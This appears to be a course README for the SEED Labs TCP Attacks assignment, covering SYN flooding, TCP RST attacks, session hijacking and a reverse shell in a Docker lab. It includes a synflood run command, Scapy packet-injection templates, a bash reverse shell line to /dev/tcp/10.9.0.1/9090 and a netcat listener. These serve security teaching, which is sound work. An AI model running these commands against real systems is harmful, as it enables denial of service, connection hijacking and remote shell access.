

# TCP Attacks Lab

## Overview

This lab involves various TCP attacks, including SYN Flooding, TCP RST attacks, TCP Session Hijacking, and creating a Reverse Shell. Each task requires specific steps and screenshots to demonstrate the attacks and their mitigation techniques.

## Lab Setup

1. **Download the Lab Setup:**
   - [Lab Setup ZIP File](https://seedsecuritylabs.org/Labs_20.04/Networking/TCP_Attacks/)
   - [Docker Manual](https://github.com/seed-labs/seed-labs/blob/master/manuals/docker/SEEDManual-Container.md)

2. **Ensure Docker is Set Up:**
   - Follow the instructions in section 2.1 of the [Lab PDF](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf) to set up your environment.

## Tasks

### Q1 Task 1: SYN Flooding Attack

**Objective:** Demonstrate a SYN Flooding attack and the effect of SYN cookies.

1. **SYN Flooding Overview:**
   - SYN flooding is a Denial of Service (DoS) attack where attackers send many SYN requests to a victim’s TCP port without completing the handshake.

   

2. **Queue Size Check:**
   - Use the command `sysctl -q net.ipv4.tcp_max_syn_backlog - 128` to check and set the queue size.

3. **SYN Cookie Countermeasure:**
   - Enable/Disable SYN cookies using:
     ```bash
     sudo sysctl -a | grep syncookies
     sudo sysctl -w net.ipv4.tcp_syncookies=0 # Turn off SYN cookies
     sudo sysctl -w net.ipv4.tcp_syncookies=1 # Turn on SYN cookies
     ```
   - Note: These commands don’t work inside the container; they should be set in `docker-compose.yml` if needed.

4. **Launching the Attack:**
   - Compile and run the attack using:
     ```bash
     gcc -o synflood synflood.c
     synflood 10.9.0.5 23
     ```

5. **Observations:**
   - Compare the results using `netstat -nat` before and during the attack.
   - Test connectivity from another machine using telnet.

6. **Screenshots:**
   - **SYN cookies off, Attack in progress:** [Screenshot](TCP_Attack_without_the_SYN_cookie_mechanism.png)
   - **SYN cookies on, Attack in progress:** [Screenshot](TCP_Attack_with_the_SYN_cookie_mechanism.png)

### Q2 Task 2: TCP RST Attacks on Telnet Connections

**Objective:** Launch a TCP RST attack to break an established telnet connection.

1. **Manual Attack:**
   - Use Scapy to conduct the attack. Replace placeholders with actual values from Wireshark:
     ```python
     #!/usr/bin/env python3
     from scapy.all import *
     ip = IP(src="@@@@", dst="@@@@")
     tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
     pkt = ip/tcp
     ls(pkt)
     send(pkt, verbose=0)
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q2_Python_Scapy_code.png)
   - **Wireshark Frames:**
     - Frame showing SEQ/ACK numbers: [Screenshot](Q2_TCP_RST_ATTACK_Wireshark_1.png)
     - Frame showing TCP RST attack: [Screenshot](Q2_TCP_RST_ATTACK_Wireshark_2.png)

3. **Optional Bonus:**
   - Automate the attack using Scapy’s `sniff()` function. Submit a PDF with details of automation.

### Q3 Task 3: TCP Session Hijacking

**Objective:** Hijack an existing TCP connection and inject malicious commands.

1. **Manual Attack:**
   - Use Scapy to perform the session hijacking. Replace placeholders with actual values from Wireshark:
     ```python
     #!/usr/bin/env python3
     from scapy.all import *
     ip = IP(src="@@@@", dst="@@@@")
     tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
     data = "@@@@"
     pkt = ip/tcp/data
     ls(pkt)
     send(pkt, verbose=0)
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q3_Python_Scapy_code.png)
   - **Wireshark Frames:**
     - Frame showing SEQ/ACK numbers: [Screenshot](Q3_TCP_Session_Hijacking_Attack_before.png)
     - Frame showing injected code: [Screenshot](Q3_TCP_Session_Hijacking_Attack_after.png)

3. **Optional Bonus:**
   - Automate the attack using Scapy’s `sniff()` function. Submit a PDF with details of automation.

### Q4 Task 4: Creating Reverse Shell using TCP Session Hijacking

**Objective:** Use TCP session hijacking to set up a reverse shell.

1. **Reverse Shell Setup:**
   - The reverse shell command example:
     ```bash
     /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1
     ```
   - Netcat setup on the attacker machine:
     ```bash
     nc -lvp 9090
     ```

2. **Screenshots:**
   - **Python/Scapy Code:** [Screenshot](Q4_Python_Scapy_code.png)
   - **Reverse Shell Connection:** [Screenshot](Q4_reverse_shell.png)

3. **Optional Bonus:**
   - Automate the attack and setup. Submit a PDF with details of automation.

## Submission Instructions

- Follow the [instructions](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf) in the PDF document for submission.
- Submit screenshots showing the VM screen with date and time for each attack.

## Due Dates

- **Normal Due Date:** 11 Feb
- **Earliest Acceptance Date:** 6 Feb (+1% bonus per day, up to +5% bonus for five days early)
- **Latest Acceptance Date:** 21 Feb (-10% points)
